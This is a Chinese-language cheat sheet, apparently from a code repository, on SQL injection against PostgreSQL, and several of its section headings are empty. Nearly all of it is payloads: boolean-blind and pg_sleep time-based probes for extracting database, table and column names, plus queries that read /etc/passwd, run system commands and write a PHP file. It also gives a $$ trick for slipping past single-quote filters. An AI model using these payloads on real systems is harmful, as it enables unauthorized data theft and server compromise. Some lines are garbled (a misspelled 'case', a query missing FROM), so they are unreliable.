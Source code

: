## PostgreSQL数据库的注入
### 一、联合注入


### 二、报错注入


### 三、布尔盲注
```sql
--先猜当前数据库的长度
and (select length(current_database())) between 0 and 30

--ascii猜解库名的每个字符
and (select ascii(substr(current_database(),1,1))) between 0 and 30

---猜解数据库的表的个数
and (select count(*) from pg_stat_user_tables) between 0 and 30

--猜解库里的表名的长度
and (select length(relname) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--猜解表名里面的每个字符
and (select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--接下来猜解字段名
and (select+ascii(substr(column_name,1,1)) information_schema.columns where table_name=aaa) between 0 and 30
```

### 四、时间盲注

### 五、PostgreSQL语法
#### 1、常用语法
```SQL
select CURRENT_SCHEMA()           #查看当前权限
select user                       #查看用户
select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
select pg_read_file('/etc/passwd');          #读取文件
select system('whoami');                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```
#### 2、注意点
此数据库有一个特性，使用like查询子句时，比如：
```SQL
where aaa like '%aaa%';
```
这里单引号可以使用$$代替，如:
```SQL
where aaa like $$%aaa%$$;
```
但是暂时不知道原因！**但是可以利用这一点来逃逸单引号过滤！**
#### 3、PostgreSQL数据库的一些payload合集（注意注释符号--+）
（1）简单的有回显的SQL注入不用多说，还是基本的SQL语句直接查询就可以了。
```SQL
 #简单的payload
 parameter = 2-1
 parameter = 1 and 1 = 2
 parameter = 1 or 1 = 2-1
 parameter = 1' and '1'='1#and -> or
 parameter = 1' and '1'='2#and -> or
 ```
或者引号区分发（适用于字符串）
```SQL
 parameter = 1    #Success
 parameter = 1'   #Failed
 parameter = 1''  #Success
 ```
（2）一般的基于时间的盲注，可以参考下面的办法：
```SQL
 #postgresql 的几个简单判断payload：
 parameter=1;select pg_sleep(5)
 parameter=1';select pg_sleep(5)
 parameter=1');select pg_sleep(5)
 parameter=1);select pg_sleep(5)
 parameter=1));select pg_sleep(5)
 parameter=select pg_sleep(5)
 ```
盲注的逐位猜解
```SQL
 SELECT CASE WHEN (COALESCE(ASCII(SUBSTR(({current_user}),1,1)),0) > 100) THEN pg_sleep(14) ELSE pg_sleep(0) END LIMIT 1--+
 ```
（3）常见的函数查看一些基本信息：
```SQL
 SELECT version()     #查看版本信息
 SELECT user;        #查看用户
 SELECT current_user;
 SELECT session_user;
 SELECT usename FROM pg_user;     #这里是usename不是username
 SELECT getpgusername();
 SELECT current_database()       #查看当前数据库
 ```
（4）postgresql下的if
```SQL
 #mysql的
 if(expr1,result1,result2);
 #如果expr1满足，result1，否则result2
 
 #对于postgresql
 select case when(expr1) then result1 else result2 end;
 
 #举个例子
 select casr when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
```

